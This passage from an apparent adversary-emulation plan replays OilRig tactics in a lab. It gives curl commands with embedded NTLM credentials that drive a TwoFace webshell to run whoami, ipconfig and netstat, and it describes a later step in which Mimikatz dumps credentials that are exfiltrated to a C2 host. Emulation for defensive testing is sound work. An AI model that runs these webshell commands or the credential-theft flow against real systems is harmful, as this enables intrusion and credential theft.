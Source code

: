 Use the webshell to enumerate the current user.

```bash
# OilRig has run whoami on a victim.[3][4][10]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" https://10.1.0.6/ews/contact.aspx
```

Enumerate the system network configurations.

```bash
# OilRig has run ipconfig /all on a victim.[3][4]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=ipconfig /all" https://10.1.0.6/ews/contact.aspx
```

Use the webshell to perform network discovery on `WATERFALLS (10.1.0.6)`, 
discovering a connection to host 10.1.0.7 via a port commonly associated with 
SQL.

```bash
# OilRig has used netstat -an on a victim to get a listing of network connections.[3]

curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=netstat -an" https://10.1.0.6/ews/contact.aspx
```

<br>

### :moyai: Source Code
*  TwoFace Webshell instruction parsing: [contact.aspx#L12-L21](contact.aspx#L12-L21)
*  TwoFace Webshell command execution: [contact.aspx#L176-L194](contact.aspx#L176-L194)

<br>

### :microscope: Cited Intelligence
*  TwoFace: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/
*  Network discovery: https://unit42.paloaltonetworks.com/the-oilrig-campaign-attacks-on-saudi-arabian-organizations-deliver-helminth-backdoor/

<br>


## Step 6 - Privileged Credential Dumping

### :microphone: Voice Track

Step 6 emulates OilRig using the webshell to download Mimikatz to `WATERFALLS` 
and using elevated privileges to dump credentials. The dumped credentials 
(stored in `01.txt`) are exfiltrated back to the C2 (`192.168.0.4`) via the webshell.

After exfiltration is complete OilRig deletes both Mimikatz and the dumped 
credentials from the directory on `WATERFALLS`.

---